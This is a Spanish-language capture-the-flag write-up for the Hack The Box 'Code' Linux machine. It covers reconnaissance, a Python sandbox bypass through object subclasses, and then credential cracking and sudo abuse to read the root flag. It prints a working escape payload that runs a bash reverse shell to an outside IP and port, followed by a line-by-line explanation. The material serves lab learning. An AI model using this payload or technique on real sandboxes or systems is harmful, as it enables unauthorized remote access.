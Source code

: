 ![alt text](image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](image/code1.png)

En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave

![alt text](image/code2.png)
![alt text](image/code3.png)

Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*
![alt text](image/code4.png)

Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.

![alt text](image/code5.png)

Encuentro las palabras claves que no podían ser leídas por el IDE.

![alt text](image/code6.png)

Saliendo de la ruta app encontramos la primera flag de usuario.

![alt text](image/code7.png)

Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas

![alt text](image/code8.png)

![alt text](image/code9.png)

Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.

![alt text](image/code10.png)
![alt text](image/code11.png)

## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.

![alt text](image/code12.png)

Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.

![alt text](image/code13.png)
